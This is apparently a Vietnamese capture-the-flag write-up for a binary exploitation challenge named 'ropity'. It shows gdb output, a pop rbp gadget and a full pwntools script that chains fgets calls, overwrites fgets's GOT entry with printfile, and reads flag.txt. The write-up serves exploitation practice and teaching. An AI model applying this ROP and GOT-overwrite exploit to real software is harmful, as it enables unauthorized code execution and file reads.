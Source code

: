 ```
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```
- Ta thấy địa chỉ cho phép ghi là từ `0x404000` đến `0x405000` 
```
   0x0000000000401149 <+19>:    lea    rax,[rbp-0x8]
   0x000000000040114d <+23>:    mov    esi,0x100
   0x0000000000401152 <+28>:    mov    rdi,rax
   0x0000000000401155 <+31>:    call   0x401040 <fgets@plt>
```
- Mà ta thấy `rdi` được lấy từ `rbp-0x8` nên ta cần thay đổi `rbp`
- Để thay đổi `rbp` cần gadget `pop rbp`, ta có một gadget hữu ích
`0x000000000040111d: pop rbp; ret;`
- Vậy thực thi `fgets` 2 lần, lần đầu để thay đổi `rbp` và lần sau đưa chuỗi `flag.txt` vào
- Nhưng chương trình hoạt động không đúng vì sau khi thực thi `fgets` lần 2 thì thanh ghi `rdi` không còn giữ địa chỉ của flag nữa để có được tham số như mong muốn khi vào hàm `printfile`
```
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/s4ngxg/imag/ropity/vuln:
GOT protection: Partial RELRO | Found 1 GOT entries passing the filter
[0x404018] fgets@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
```
- Đổi giá trị plt của `fgets` thành địa chỉ của hàm `printfile`
- Vậy ta cần thực thi `fgets` 3 lần 
- Ở lần nhập thứ nhất đặt `rbp` bằng `fgets.got + 8` để set `rdi` bằng `fgets.got` và sau đó quay lại hàm `fgets`
- Ở lần nhập thứ 2 nhập địa chỉ của `printfile` để `fgets.got` trỏ đến địa chỉ `printfile` và cần set `rbp` và nhập chuỗi `flag.txt`

## Script
```python=
#!/usr/bin/python3

from pwn import *

p = process('./vuln')

pop_rbp = 0x000000000040111d
return_fgets = 0x0000000000401142
printfile = 0x000000000040115d
fgets_got = 0x404018

payload = b'A'*16
payload += p64(pop_rbp)
payload += p64(fgets_got + 8)
payload += p64(return_fgets)

input()
p.sendline(payload)

payload = p64(printfile)
payload += b'A'*8
payload += p64(pop_rbp)
payload += p64(fgets_got + 0x30)
payload += p64(return_fgets)
payload += b'flag.txt'
payload += p64(0)

p.sendline(payload)

p.interactive()
```